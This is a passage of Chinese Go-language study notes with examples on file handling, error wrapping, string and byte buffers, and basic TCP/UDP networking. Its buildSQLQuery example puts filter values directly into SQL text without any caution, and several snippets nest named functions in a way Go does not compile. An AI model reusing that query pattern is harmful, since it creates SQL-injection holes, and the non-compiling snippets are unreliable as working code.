        for i := 0; i < maxRetries; i++ {
            file, err = os.OpenFile(filename, os.O_RDWR|os.O_CREATE, 0644)
            if err == nil {
                return file, nil
            }
            
            fmt.Printf("尝试 %d 失败: %v\n", i+1, err)
            time.Sleep(time.Duration(i+1) * 100 * time.Millisecond) // 递增延迟
        }
        
        return nil, fmt.Errorf("经过 %d 次重试后仍失败: %v", maxRetries, err)
    }
    
    // 安全文件写入
    func writeFileSafely(filename string, data []byte) error {
        // 先写入临时文件
        tempFile := filename + ".tmp"
        err := os.WriteFile(tempFile, data, 0644)
        if err != nil {
            return fmt.Errorf("写入临时文件失败: %v", err)
        }
        
        // 原子性重命名
        err = os.Rename(tempFile, filename)
        if err != nil {
            // 清理临时文件
            os.Remove(tempFile)
            return fmt.Errorf("重命名失败: %v", err)
        }
        
        return nil
    }
    
    // 测试安全写入
    err := writeFileSafely("safe_file.txt", []byte("安全写入的内容"))
    if err != nil {
        fmt.Printf("安全写入失败: %v\n", err)
    } else {
        fmt.Println("安全写入成功")
    }
}
```

##### 6.2 资源清理模式

```go
func resourceCleanupPatterns() {
    fmt.Println("\n=== 资源清理模式 ===")
    
    // 模式1：使用defer确保关闭
    func processFile(filename string) error {
        file, err := os.Open(filename)
        if err != nil {
            return err
        }
        defer file.Close() // 确保文件关闭
        
        // 处理文件内容
        return nil
    }
    
    // 模式2：多资源清理
    func processMultipleFiles() error {
        file1, err := os.Open("file1.txt")
        if err != nil {
            return err
        }
        defer file1.Close()
        
        file2, err := os.Create("file2.txt")
        if err != nil {
            return err
        }
        defer file2.Close()
        
        // 处理多个文件
        return nil
    }
    
    // 模式3：条件清理
    func conditionalCleanup(filename string) error {
        file, err := os.Open(filename)
        if err != nil {
            return err
        }
        
        // 只在成功时进行特殊处理
        defer func() {
            if err == nil {
                file.Sync() // 确保数据落盘
            }
            file.Close()
        }()
        
        // 文件处理逻辑
        return nil
    }
}
```


#### 7. 实际应用示例

##### 7.1 日志记录器

```go
type FileLogger struct {
    file *os.File
    mu   sync.Mutex
}

func NewFileLogger(filename string) (*FileLogger, error) {
    file, err := os.OpenFile(filename, 
        os.O_WRONLY|os.O_CREATE|os.O_APPEND, 0644)
    if err != nil {
        return nil, err
    }
    
    return &FileLogger{file: file}, nil
}

func (l *FileLogger) Log(level, message string) {
    l.mu.Lock()
    defer l.mu.Unlock()
    
    timestamp := time.Now().Format("2006-01-02 15:04:05")
    logEntry := fmt.Sprintf("[%s] %s: %s\n", timestamp, level, message)
    
    l.file.WriteString(logEntry)
    l.file.Sync() // 重要：确保日志写入磁盘
}

func (l *FileLogger) Close() error {
    return l.file.Close()
}

func loggerExample() {
    fmt.Println("\n=== 文件日志记录器 ===")
    
    logger, err := NewFileLogger("app.log")
    if err != nil {
        fmt.Printf("创建日志器失败: %v\n", err)
        return
    }
    defer logger.Close()
    
    logger.Log("INFO", "应用程序启动")
    logger.Log("WARNING", "发现配置问题")
    logger.Log("ERROR", "处理请求时出错")
    
    fmt.Println("日志记录完成，查看 app.log 文件")
}
```

##### 7.2 配置文件管理器

```go
package main

import (
	"fmt"
	"os"
	"strings"
	"sync"
)

type ConfigManager struct {
	filename string
	config   map[string]string
	mu       sync.RWMutex
}

func NewConfigManager(filename string) *ConfigManager {
	return &ConfigManager{
		filename: filename,
		config:   make(map[string]string),
	}
}

func (cm *ConfigManager) Load() error {
	cm.mu.Lock()
	defer cm.mu.Unlock()

	content, err := os.ReadFile(cm.filename)
	if err != nil {
		if os.IsNotExist(err) {
			// 文件不存在，使用默认配置
			cm.config = map[string]string{
				"host": "localhost",
				"port": "8080",
			}
			return cm.Save()
		}
		return err
	}

	// 解析配置（简化示例）
	lines := strings.Split(string(content), "\n")
	for _, line := range lines {
		if strings.Contains(line, "=") {
			parts := strings.SplitN(line, "=", 2)
			if len(parts) == 2 {
				cm.config[strings.TrimSpace(parts[0])] = strings.TrimSpace(parts[1])
			}
		}
	}

	return nil
}

func (cm *ConfigManager) Save() error {
	cm.mu.RLock()

	var content strings.Builder
	for key, value := range cm.config {
		content.WriteString(fmt.Sprintf("%s=%s\n", key, value))
	}
	cm.mu.RUnlock() // 🔓 立即释放锁，避免死锁

	return os.WriteFile(cm.filename, []byte(content.String()), 0644)
}

func (cm *ConfigManager) Get(key string) string {
	cm.mu.RLock()
	defer cm.mu.RUnlock()
	return cm.config[key]
}

func (cm *ConfigManager) Set(key, value string) {
	cm.mu.Lock()
	defer cm.mu.Unlock()
	cm.config[key] = value
}

func configManagerExample() {
	fmt.Println("\n=== 配置文件管理器 ===")

	cm := NewConfigManager("app.conf")
	cm.Load()

	fmt.Printf("当前配置: host=%s, port=%s\n", cm.Get("host"), cm.Get("port"))

	cm.Set("host", "127.0.0.1")
	cm.Set("port", "9090")
	cm.Save()

	fmt.Println("配置已更新并保存")
}

func main() {
	configManagerExample()
}
```


- **常用第三方库**：gin/grpc-go（源码走读），protobuf/go-redis/gorm/kafka，看实际业务场景


### **错误处理**

> errors、panic/defer/recover、链式错误码Wrapping

#### 1. 基础错误处理

##### 1.1 errors 包基础用法

```go
package main

import (
    "errors"
    "fmt"
)

func basicErrors() {
    fmt.Println("=== 基础错误处理 ===")
    
    // 创建简单错误
    err := errors.New("这是一个错误")
    fmt.Printf("错误: %v\n", err)
    
    // 错误比较
    standardErr := errors.New("标准错误")
    if err == standardErr {
        fmt.Println("错误相等")
    } else {
        fmt.Println("错误不相等")
    }
    
    // 错误判断
    if err != nil {
        fmt.Printf("发生错误: %v\n", err)
    }
}
```

##### 1.2 自定义错误类型

```go
type CustomError struct {
    Code    int
    Message string
    File    string
    Line    int
}

func (e *CustomError) Error() string {
    return fmt.Sprintf("[%d] %s at %s:%d", e.Code, e.Message, e.File, e.Line)
}

func newCustomError(code int, message, file string, line int) error {
    return &CustomError{
        Code:    code,
        Message: message,
        File:    file,
        Line:    line,
    }
}

func customErrorExample() {
    fmt.Println("\n=== 自定义错误类型 ===")
    
    err := newCustomError(404, "文件未找到", "main.go", 25)
    fmt.Printf("自定义错误: %v\n", err)
    
    // 类型断言获取详细信息
    if customErr, ok := err.(*CustomError); ok {
        fmt.Printf("错误代码: %d\n", customErr.Code)
        fmt.Printf("错误信息: %s\n", customErr.Message)
        fmt.Printf("位置: %s:%d\n", customErr.File, customErr.Line)
    }
}


===》

=== 自定义错误类型 ===
自定义错误: [404] 文件未找到 at main.go:25
错误代码: 404
错误信息: 文件未找到
位置: main.go:25

```


#### 2. panic/defer/recover 机制

##### 2.1 panic 和 recover 基础

```go
func panicRecoverBasic() {
    fmt.Println("\n=== panic/recover 基础 ===")
    
    defer func() {
        if r := recover(); r != nil {
            fmt.Printf("捕获到panic: %v\n", r)
            fmt.Println("程序从panic中恢复")
        }
    }()
    
    fmt.Println("正常执行...")
    panic("发生严重错误！")
    fmt.Println("这行代码不会执行")
}

func safeDivision(a, b int) (result int, err error) {
    defer func() {
        if r := recover(); r != nil {
            err = fmt.Errorf("除零错误: %v", r)
        }
    }()
    
    if b == 0 {
        panic("除数不能为零")
    }
    return a / b, nil
}

func panicInFunction() {
    fmt.Println("\n=== 函数中的panic处理 ===")
    
    result, err := safeDivision(10, 0)
    if err != nil {
        fmt.Printf("错误: %v\n", err)
    } else {
        fmt.Printf("结果: %d\n", result)
    }
    
    result, err = safeDivision(10, 2)
    if err != nil {
        fmt.Printf("错误: %v\n", err)
    } else {
        fmt.Printf("结果: %d\n", result)
    }
}

==》

=== panic/recover 基础 ===
正常执行...
捕获到panic: 发生严重错误！
程序从panic中恢复
```

##### 2.2 defer 执行顺序

```go
// 按代码顺序倒序执行
func deferExecutionOrder() {
    fmt.Println("\n=== defer 执行顺序 ===")
    
    fmt.Println("开始执行")
    
    defer fmt.Println("defer 1 - 最后执行")
    defer fmt.Println("defer 2 - 倒数第二执行")
    defer fmt.Println("defer 3 - 倒数第三执行")
    
    fmt.Println("正常逻辑执行")
    
    // 输出顺序:
    // 开始执行
    // 正常逻辑执行  
    // defer 3 - 倒数第三执行
    // defer 2 - 倒数第二执行
    // defer 1 - 最后执行
}

func deferWithReturn() (result int) {
    //执行位置是return 前
    defer func() {
        fmt.Printf("defer中result的值: %d\n", result)
        result++ // 修改返回值
    }()
    
    result = 10
    fmt.Printf("函数中result的值: %d\n", result)
    return result
}

func testDeferReturn() {
    fmt.Println("\n=== defer 对返回值的影响 ===")
    result := deferWithReturn()
    fmt.Printf("最终返回值: %d\n", result)
}
==》

=== defer 对返回值的影响 ===
函数中result的值: 10
defer中result的值: 10
最终返回值: 11
```


#### 3. 错误链（Error Wrapping）

##### 3.1 errors.Is 和 errors.As

**功能差异**

| 特性         | errors.Is               | errors.As                     |
| :----------- | :---------------------- | :---------------------------- |
| **用途**     | 检查错误身份            | 提取错误详情                  |
| **返回值**   | bool                    | bool                          |
| **参数**     | err error, target error | err error, target interface{} |
| **比较方式** | 值相等或Is()方法        | 类型匹配                      |
| **适用场景** | 已知错误值              | 需要错误详细信息              |


```go
import "errors"

func errorWrappingBasic() {
    fmt.Println("\n=== 错误链基础 ===")
    
    // 创建基础错误
    baseErr := errors.New("基础错误")
    
    // 包装错误，errors.Wrap()函数在 Go 1.13 之后不再推荐使用，因为它被标准库的 fmt.Errorf()+ %w动词替代了。
    wrappedErr := fmt.Errorf("外层错误: %w", baseErr)
    doubleWrapped := fmt.Errorf("更外层错误: %w", wrappedErr)
    
    fmt.Printf("原始错误: %v\n", baseErr)
    fmt.Printf("包装错误: %v\n", wrappedErr)
    fmt.Printf("双重包装: %v\n", doubleWrapped)
    
    // 使用 errors.Is 检查错误链
    fmt.Printf("包含基础错误: %t\n", errors.Is(doubleWrapped, baseErr))
    fmt.Printf("包含包装错误: %t\n", errors.Is(doubleWrapped, wrappedErr))
}
==》
=== 错误链基础 ===
原始错误: 基础错误
包装错误: 外层错误: 基础错误
双重包装: 更外层错误: 外层错误: 基础错误
包含基础错误: true
包含包装错误: true


func errorUnwrapping() {
    fmt.Println("\n=== 错误解包 ===")
    
    err := fmt.Errorf("级别3: %w", 
        fmt.Errorf("级别2: %w", 
            errors.New("级别1: 原始错误")))
    
    fmt.Printf("完整错误链: %v\n", err)
    
    // 逐层解包
    for err != nil {
        fmt.Printf("当前错误: %v\n", err)
        err = errors.Unwrap(err)
    }
}

==》
=== 错误解包 ===
完整错误链: 级别3: 级别2: 级别1: 原始错误
当前错误: 级别3: 级别2: 级别1: 原始错误
当前错误: 级别2: 级别1: 原始错误
当前错误: 级别1: 原始错误


```

errors.As  - 错误类型提取

```go
package main

import (
    "errors"
    "fmt"
)

type MyError struct {
    Code    int
    Message string
}

func (e *MyError) Error() string {
    return fmt.Sprintf("错误码 %d: %s", e.Code, e.Message)
}

func main() {
	// 创建错误链：包装了自定义错误
	originalErr := &MyError{Code: 500, Message: "服务器内部错误"}
	wrappedErr := fmt.Errorf("处理请求失败: %w", originalErr)

	fmt.Println("完整错误:", wrappedErr)

	// 从错误链中提取 MyError
	var myErr *MyError
	if errors.As(wrappedErr, &myErr) {
		fmt.Printf("✅ 提取到 MyError: %v", myErr)
	} else {
		fmt.Println("❌ 未找到 MyError")
	}
}

==>
完整错误: 处理请求失败: 错误码 500: 服务器内部错误
✅ 提取到 MyError: 错误码 500: 服务器内部错误
```


##### 3.2 自定义错误链

```go
type DetailedError struct {
    Operation string
    Resource  string
    Cause     error
}

func (e *DetailedError) Error() string {
    return fmt.Sprintf("%s操作%s失败: %v", e.Operation, e.Resource, e.Cause)
}

func (e *DetailedError) Unwrap() error {
    return e.Cause
}

func createErrorChain() error {
    fmt.Println("\n=== 自定义错误链 ===")
    
    baseErr := errors.New("权限不足")
    detailedErr := &DetailedError{
        Operation: "读取",
        Resource:  "配置文件",
        Cause:     baseErr,
    }
    
    wrappedErr := fmt.Errorf("系统错误: %w", detailedErr)
    
    return wrappedErr
}

func testErrorChain() {
    err := createErrorChain()
    fmt.Printf("错误链: %v\n", err)
    
    // 使用 errors.As 提取特定错误类型
    var detailedErr *DetailedError
    if errors.As(err, &detailedErr) {
        fmt.Printf("提取到DetailedError: 操作=%s, 资源=%s\n", 
            detailedErr.Operation, detailedErr.Resource)
    }
    
    // 检查特定错误
    if errors.Is(err, errors.New("权限不足")) {
        fmt.Println("错误链中包含'权限不足'错误")
    }
}

==>
=== 自定义错误链 ===
错误链: 系统错误: 读取操作配置文件失败: 权限不足
提取到DetailedError: 操作=读取, 资源=配置文件
```


### **缓冲区操作**

> strings.Builder/bytes.Buffer，io.Reader/io.Writer，性能对比和适用场景

选择指南：

| 场景             | 推荐工具           | 理由                 |
| :--------------- | :----------------- | :------------------- |
| **纯字符串拼接** | `strings.Builder`  | 性能最优，内存效率高 |
| **字节数据处理** | `bytes.Buffer`     | 支持读写，功能全面   |
| **IO流处理**     | `io.Reader/Writer` | 接口抽象，灵活性高   |
| **网络协议**     | `bytes.Buffer`     | 二进制数据处理能力强 |
| **模板生成**     | `strings.Builder`  | 字符串构建效率高     |
| **数据编码**     | `bytes.Buffer`     | 支持各种数据格式     |

性能排序（字符串拼接）：

1. **预分配strings.Builder** 🥇（最快）
2. **普通strings.Builder** 🥈
3. **bytes.Buffer** 🥉
4. **直接`+`拼接** ❌（避免使用）

最佳实践：

- **预估大小**：使用`Grow()`预分配
- **批量操作**：减少方法调用
- **缓冲区复用**：使用sync.Pool
- **接口编程**：面向io.Reader/Writer编程

#### 1. strings.Builder - 字符串构建专家

##### 1.1 基础用法

```go
package main

import (
    "fmt"
    "strings"
)

func stringBuilderBasic() {
    fmt.Println("=== strings.Builder 基础用法 ===")
    
    var sb strings.Builder
    
    // 写入字符串
    sb.WriteString("Hello, ")
    sb.WriteString("World!")
    fmt.Printf("内容: %s\n", sb.String())
    
    // 写入字节
    sb.WriteByte(' ')
    sb.Write([]byte("Welcome to Go!"))
    fmt.Printf("内容: %s\n", sb.String())
    
    // 写入Rune（支持Unicode）
    sb.WriteRune('🚀')
    fmt.Printf("内容: %s\n", sb.String())
    
    // 获取长度和容量
    fmt.Printf("长度: %d, 容量: %d\n", sb.Len(), getStringBuilderCap(&sb))
    
    // 重置缓冲区
    sb.Reset()
    fmt.Printf("重置后长度: %d\n", sb.Len())
}

// 获取strings.Builder容量（通过反射）
func getStringBuilderCap(sb *strings.Builder) int {
    // 注意：实际项目中谨慎使用反射获取内部状态
    return getStringBuilderCapReflect(sb)
}

// 方法一：通过反射获取strings.Builder容量
func getStringBuilderCapReflect(sb *strings.Builder) int {
	// 获取reflect.Value
	v := reflect.ValueOf(sb).Elem()

	// 获取私有字段buf []byte
	bufField := v.FieldByName("buf")
	if !bufField.IsValid() {
		return -1
	}

	// 获取切片的容量
	return bufField.Cap()
}

// 方法二：通过unsafe包获取（性能更好但更危险）
func getStringBuilderCapUnsafe(sb *strings.Builder) int {
	// 获取strings.Builder的结构体指针
	builder := (*struct {
		buf []byte
		// 注意：strings.Builder实际有更多字段，但我们只关心buf
	})(unsafe.Pointer(sb))

	return cap(builder.buf)
}

==>
=== strings.Builder 基础用法 ===
内容: Hello, World!
内容: Hello, World! Welcome to Go!
内容: Hello, World! Welcome to Go!🚀
长度: 32, 容量: 32
重置后长度: 0
```

##### 1.2 高性能字符串拼接

```go
func efficientStringConcatenation() {
    fmt.Println("\n=== 高性能字符串拼接 ===")
    
    // 传统方式（性能差）
    var result string
    for i := 0; i < 5; i++ {
        result += fmt.Sprintf("项目 %d, ", i) // 每次拼接都分配新内存
    }
    fmt.Printf("传统拼接: %s\n", result)
    
    // 使用strings.Builder（性能好）
    var sb strings.Builder
    for i := 0; i < 5; i++ {
        sb.WriteString(fmt.Sprintf("项目 %d, ", i))
    }
    fmt.Printf("Builder拼接: %s\n", sb.String())
    
    // 预分配容量优化
    var optimizedSb strings.Builder
    optimizedSb.Grow(100) // 预分配容量，避免多次扩容
    for i := 0; i < 5; i++ {
        optimizedSb.WriteString("预分配项目 ")
        fmt.Fprintf(&optimizedSb, "%d, ", i)
    }
    fmt.Printf("预分配优化: %s\n", optimizedSb.String())
}

==>

=== 高性能字符串拼接 ===
传统拼接: 项目 0, 项目 1, 项目 2, 项目 3, 项目 4, 
Builder拼接: 项目 0, 项目 1, 项目 2, 项目 3, 项目 4, 
预分配优化: 预分配项目 0, 预分配项目 1, 预分配项目 2, 预分配项目 3, 预分配项目 4, 

```


#### 2. bytes.Buffer - 字节缓冲区

##### 2.1 基础用法

```go
import "bytes"

func bytesBufferBasic() {
    fmt.Println("\n=== bytes.Buffer 基础用法 ===")
    
    var buf bytes.Buffer
    
    // 写入操作
    buf.WriteString("Hello")
    buf.WriteByte(' ')
    buf.Write([]byte("World!"))
    
    fmt.Printf("缓冲区内容: %s\n", buf.String())
    fmt.Printf("长度: %d, 容量: %d\n", buf.Len(), buf.Cap())
    
    // 读取操作
    readData := make([]byte, 5)
    n, _ := buf.Read(readData)
    fmt.Printf("读取 %d 字节: %s\n", n, string(readData))
    fmt.Printf("读取后长度: %d\n", buf.Len())
    
    // 未读取部分
    remaining, _ := buf.ReadString('!') //它会读取从当前指针到指定分隔符（包括分隔符）的所有内容
    fmt.Printf("剩余内容: %s\n", remaining)
}
```


##### 2.2 双向读写操作

```go
func bytesBufferReadWrite() {
    fmt.Println("\n=== bytes.Buffer 双向操作 ===")
    
    buf := bytes.NewBufferString("初始内容")
    
    // 读取操作
    fmt.Printf("初始内容: %s\n", buf.String())
    
    // 读取第一个字
    firstByte, _ := buf.ReadByte()
    fmt.Printf("读取第一个字节: %c\n", firstByte)
    fmt.Printf("剩余内容: %s\n", buf.String())
    
    // 回退字节
    buf.UnreadByte()
    fmt.Printf("回退后内容: %s\n", buf.String())
    
    // 继续写入
    buf.WriteString(" - 追加内容")
    fmt.Printf("写入后内容: %s\n", buf.String())
    
    // 读取到分隔符
    line, _ := buf.ReadString('-')
    fmt.Printf("读取到分隔符: %s\n", line)
    fmt.Printf("剩余内容: %s\n", buf.String())
}

==>

=== bytes.Buffer 双向操作 ===
初始内容: 初始内容
读取第一个字节: å
剩余内容: ��始内容
回退后内容: 初始内容
写入后内容: 初始内容 - 追加内容
读取到分隔符: 初始内容 -
剩余内容:  追加内容

```


#### 3. io.Reader/io.Writer 接口

##### 3.1 接口定义和使用

```go
import "io"

func ioInterfacesBasic() {
    fmt.Println("\n=== io.Reader/io.Writer 接口 ===")
    
    // io.Reader 示例
    data := "Hello, Reader!"
    reader := strings.NewReader(data)
    
    buffer := make([]byte, 8)
    for {
        n, err := reader.Read(buffer)
        if err == io.EOF {
            break
        }
        fmt.Printf("读取 %d 字节: %s\n", n, string(buffer[:n]))
    }
    
    // io.Writer 示例
    var writer strings.Builder
    writer.Write([]byte("通过Writer写入"))
    fmt.Printf("Writer内容: %s\n", writer.String())
}

==>

=== io.Reader/io.Writer 接口 ===
读取 8 字节: Hello, R
读取 6 字节: eader!
Writer内容: 通过Writer写入
```

##### 3.2 自定义Reader实现

```go
// 自定义Reader
type CountingReader struct {
    src    io.Reader
    bytesRead int64
}

func NewCountingReader(r io.Reader) *CountingReader {
    return &CountingReader{src: r}
}

func (cr *CountingReader) Read(p []byte) (int, error) {
    n, err := cr.src.Read(p)
    cr.bytesRead += int64(n)
    return n, err
}

func (cr *CountingReader) BytesRead() int64 {
    return cr.bytesRead
}

// 自定义Writer
type LoggingWriter struct {
    writer io.Writer
}

func NewLoggingWriter(w io.Writer) *LoggingWriter {
    return &LoggingWriter{writer: w}
}

func (lw *LoggingWriter) Write(p []byte) (int, error) {
    fmt.Printf("写入 %d 字节: %s\n", len(p), string(p))
    return lw.writer.Write(p)
}

func customIOExamples() {
    fmt.Println("\n=== 自定义IO实现 ===")
    
    // 使用自定义Reader
    data := "这是一段测试数据"
    reader := NewCountingReader(strings.NewReader(data))
    
    buffer := make([]byte, 5)
    reader.Read(buffer)
    fmt.Printf("已读取字节数: %d\n", reader.BytesRead())
    
    // 使用自定义Writer
    var sb strings.Builder
    logger := NewLoggingWriter(&sb)
    
    logger.Write([]byte("日志记录"))
    fmt.Printf("最终内容: %s\n", sb.String())
}

==>


=== 自定义IO实现 ===
已读取字节数: 5
写入 12 字节: 日志记录
最终内容: 日志记录
```


#### 4. 性能对比分析

##### 4.1 字符串拼接性能测试

```go
func performanceComparison() {
    fmt.Println("\n=== 性能对比测试 ===")
    
    const iterations = 10000
    const text = "test"
    
    // 测试1: 直接拼接（性能最差）
    start := time.Now()
    var result string
    for i := 0; i < iterations; i++ {
        result += text
    }
    duration1 := time.Since(start)
    fmt.Printf("直接拼接: %v, 长度: %d\n", duration1, len(result))
    
    // 测试2: strings.Builder
    start = time.Now()
    var sb strings.Builder
    for i := 0; i < iterations; i++ {
        sb.WriteString(text)
    }
    result2 := sb.String()
    duration2 := time.Since(start)
    fmt.Printf("strings.Builder: %v, 长度: %d\n", duration2, len(result2))
    
    // 测试3: bytes.Buffer
    start = time.Now()
    var buf bytes.Buffer
    for i := 0; i < iterations; i++ {
        buf.WriteString(text)
    }
    result3 := buf.String()
    duration3 := time.Since(start)
    fmt.Printf("bytes.Buffer: %v, 长度: %d\n", duration3, len(result3))
    
    // 测试4: 预分配的strings.Builder
    start = time.Now()
    var optimizedSb strings.Builder
    optimizedSb.Grow(iterations * len(text)) // 预分配
    for i := 0; i < iterations; i++ {
        optimizedSb.WriteString(text)
    }
    result4 := optimizedSb.String()
    duration4 := time.Since(start)
    fmt.Printf("预分配Builder: %v, 长度: %d\n", duration4, len(result4))
    
    fmt.Printf("\n性能对比:\n")
    fmt.Printf("strings.Builder 比直接拼接快 %.1fx\n", 
        float64(duration1)/float64(duration2))
    fmt.Printf("预分配Builder 比普通Builder快 %.1fx\n", 
        float64(duration2)/float64(duration4))
}

==>

=== 性能对比测试 ===
直接拼接: 44.941355ms, 长度: 40000
strings.Builder: 208.42µs, 长度: 40000
bytes.Buffer: 219.982µs, 长度: 40000
预分配Builder: 133.39µs, 长度: 40000

性能对比:
strings.Builder 比直接拼接快 215.6x
预分配Builder 比普通Builder快 1.6x
```

##### 4.2 内存分配分析

```go
func memoryAllocationAnalysis() {
	fmt.Println("\n=== 内存分配分析 ===")

	// strings.Builder 内存增长策略
	var sb strings.Builder
	fmt.Println("strings.Builder 容量增长:")
	for i := 0; i < 10; i++ {
		sb.WriteString("1234567890") // 10字节
		// 注意：实际容量需要通过反射获取，这里简化显示
		fmt.Printf("写入后长度: %d, 容量: %d\n", sb.Len(), sb.Cap())
	}

	// bytes.Buffer 内存增长策略
	var buf bytes.Buffer
	fmt.Println("\nbytes.Buffer 容量增长:")
	for i := 0; i < 10; i++ {
		buf.WriteString("1234567890")
		fmt.Printf("写入后长度: %d, 容量: %d\n", buf.Len(), buf.Cap())
	}
}

==>


=== 内存分配分析 ===
strings.Builder 容量增长:
写入后长度: 10, 容量: 16
写入后长度: 20, 容量: 32
写入后长度: 30, 容量: 32
写入后长度: 40, 容量: 64
写入后长度: 50, 容量: 64
写入后长度: 60, 容量: 64
写入后长度: 70, 容量: 128
写入后长度: 80, 容量: 128
写入后长度: 90, 容量: 128
写入后长度: 100, 容量: 128

bytes.Buffer 容量增长:
写入后长度: 10, 容量: 64
写入后长度: 20, 容量: 64
写入后长度: 30, 容量: 64
写入后长度: 40, 容量: 64
写入后长度: 50, 容量: 64
写入后长度: 60, 容量: 64
写入后长度: 70, 容量: 128
写入后长度: 80, 容量: 128
写入后长度: 90, 容量: 128

==> 
strings.Builder 初始容量是8 （试出来的）
bytes.Buffer 初始容量是64

```


#### 5. 适用场景详解

##### 5.1 strings.Builder 适用场景

**纯字符串拼接**、**模板生成**

```go
func stringBuilderUseCases() {
    fmt.Println("\n=== strings.Builder 适用场景 ===")
    
    // 场景1: 动态构建字符串（SQL查询、HTML模板等）
    func buildSQLQuery(filters map[string]string) string {
        var sb strings.Builder
        sb.WriteString("SELECT * FROM users WHERE 1=1")
        
        for field, value := range filters {
            fmt.Fprintf(&sb, " AND %s = '%s'", field, value)
        }
        
        sb.WriteString(" ORDER BY created_at DESC")
        return sb.String()
    }
    
    query := buildSQLQuery(map[string]string{
        "status": "active", 
        "role": "admin",
    })
    fmt.Printf("生成的SQL: %s\n", query)
    
    // 场景2: 日志消息构建
    func buildLogMessage(level, message string, metadata map[string]interface{}) string {
        var sb strings.Builder
        fmt.Fprintf(&sb, "[%s] %s - ", level, time.Now().Format("2006-01-02 15:04:05"))
        sb.WriteString(message)
        
        for key, value := range metadata {
            fmt.Fprintf(&sb, " %s=%v", key, value)
        }
        
        return sb.String()
    }
    
    logMsg := buildLogMessage("INFO", "用户登录", map[string]interface{}{
        "user_id": 123, "ip": "192.168.1.1",
    })
    fmt.Printf("日志消息: %s\n", logMsg)
}
```

##### 5.2 bytes.Buffer 适用场景

**字节数据处理（网络传输的往往是字节数据）**

**数据编码**==》编码成字节数据流便于传输

```go
func bytesBufferUseCases() {
    fmt.Println("\n=== bytes.Buffer 适用场景 ===")
    
    // 场景1: 网络协议处理（读取+解析）
    func processNetworkData(data []byte) {
        buf := bytes.NewBuffer(data)
        
        // 读取协议头
        header := make([]byte, 4)
        buf.Read(header)
        fmt.Printf("协议头: %x\n", header)
        
        // 读取消息体
        body, _ := buf.ReadString('\x00')
        fmt.Printf("消息体: %s\n", body)
    }
    
    testData := []byte("HEAD消息内容\x00")
    processNetworkData(testData)
    
    // 场景2: 数据编码/解码
    func encodeData(values ...string) []byte {
        var buf bytes.Buffer
        for _, value := range values {
            buf.WriteString(value)
            buf.WriteByte(0) // 分隔符
        }
        return buf.Bytes()
    }
    
    func decodeData(data []byte) []string {
        buf := bytes.NewBuffer(data)
        var result []string
        
        for {
            value, err := buf.ReadString(0)
            if err != nil {
                break
            }
            result = append(result, value[:len(value)-1]) // 去除分隔符
        }
        
        return result
    }
    
    encoded := encodeData("apple", "banana", "cherry")
    decoded := decodeData(encoded)
    fmt.Printf("编码/解码结果: %v\n", decoded)
}
```

##### 5.3 IO接口适用场景

**IO流处理** --接口抽象，灵活性高

```go
func ioInterfaceUseCases() {
    fmt.Println("\n=== IO接口适用场景 ===")
    
    // 场景1: 数据流处理管道
    func processStream(reader io.Reader, writer io.Writer) error {
        buffer := make([]byte, 1024)
        for {
            n, err := reader.Read(buffer)
            if err == io.EOF {
                break
            }
            if err != nil {
                return err
            }
            
            // 处理数据（示例：转换为大写）
            processed := strings.ToUpper(string(buffer[:n]))
            writer.Write([]byte(processed))
        }
        return nil
    }
    
    // 测试流处理
    input := strings.NewReader("hello world")
    var output strings.Builder
    processStream(input, &output)
    fmt.Printf("流处理结果: %s\n", output.String())
    
    // 场景2: 接口组合（装饰器模式）
    type CompressingWriter struct {
        writer io.Writer
    }
    
    func (cw *CompressingWriter) Write(data []byte) (int, error) {
        // 模拟压缩
        compressed := fmt.Sprintf("COMPRESSED(%s)", string(data))
        return cw.writer.Write([]byte(compressed))
    }
    
    var result strings.Builder
    compressor := &CompressingWriter{writer: &result}
    compressor.Write([]byte("原始数据"))
    fmt.Printf("压缩结果: %s\n", result.String())
}
```


### **网络**

> net net.Dial、rpc socket、http net.http，高性能golang服务器实现

#### 关键总结

性能优化要点：

1. **连接复用**：使用连接池减少TCP握手开销
2. **Worker池**：控制并发，避免goroutine爆炸
3. **内存池**：减少GC压力，**复用缓冲区**
4. **零拷贝**：使用io.Copy等避免不必要的内存分配

架构设计原则：

- **异步处理**：Worker池+任务队列
- **资源控制**：限制连接数、超时设置
- **监控指标**：实时统计性能数据
- **优雅关闭**：正确处理连接关闭和资源释放

适用场景：

- **高并发API**：HTTP服务器 + Worker池
- **实时通信**：TCP/UDP + 连接池
- **微服务**：RPC + 服务发现
- **网关代理**：连接复用 + 负载均衡


#### 1. 基础网络操作

##### 1.1 TCP/UDP 客户端

```go
package main

import (
	"fmt"
	"io"
	"net"
	"time"
)

func tcpClientExample() {
	fmt.Println("=== TCP 客户端示例 ===")

	// 连接TCP服务器
	conn, err := net.Dial("tcp", "127.0.0.1:8011")
	if err != nil {
		fmt.Printf("连接失败: %v\n", err)
		return
	}
	defer conn.Close()

	// 设置超时
	conn.SetDeadline(time.Now().Add(5 * time.Second))

	// 发送HTTP请求
	request := "GET / HTTP/1.1\r\nHost: 127.0.0.1\r\n\r\n"
	_, err = conn.Write([]byte(request))
	if err != nil {
		fmt.Printf("发送失败: %v\n", err)
		return
	}

	// 读取响应
	buffer := make([]byte, 1024)
	n, err := conn.Read(buffer)
	if err != nil && err != io.EOF {
		fmt.Printf("读取失败: %v\n", err)
		return
	}

	fmt.Printf("收到响应: %s\n", string(buffer[:n]))
}

func udpClientExample() {
	fmt.Println("\n=== UDP 客户端示例 ===")

	// 连接UDP服务器
	conn, err := net.Dial("udp", "127.0.0.1:8012")
	if err != nil {
		fmt.Printf("连接失败: %v\n", err)
		return
	}
	defer conn.Close()

	// 发送DNS查询（简化版）
	query := []byte{0x00, 0x00, 0x01, 0x00, 0x00, 0x01, 0x00, 0x00}
	_, err = conn.Write(query)
	if err != nil {
		fmt.Printf("发送失败: %v\n", err)
		return
	}

	// 读取响应
	buffer := make([]byte, 512)
	conn.SetReadDeadline(time.Now().Add(3 * time.Second))
	n, err := conn.Read(buffer)
	if err != nil {
		fmt.Printf("读取失败: %v\n", err)
		return
	}

	fmt.Printf("收到UDP响应: %d 字节\n", n)
}

func main() {
	tcpClientExample()
}

```

##### 1.2 服务端


###### tcp服务器

```go
package main

import (
    "fmt"
    "net"
)

func startTCPServer() {
    // 监听所有网卡的8011端口
    listener, err := net.Listen("tcp", ":8011")
    if err != nil {
        fmt.Printf("服务端监听失败: %v\n", err)
        return
    }
    defer listener.Close()
    
    fmt.Printf("TCP服务端启动成功，监听端口: 8011\n")
    
    for {
        // 接受客户端连接
        conn, err := listener.Accept()
        if err != nil {
            fmt.Printf("接受连接失败: %v\n", err)
            continue
        }
        
        go handleConnection(conn)
    }
}

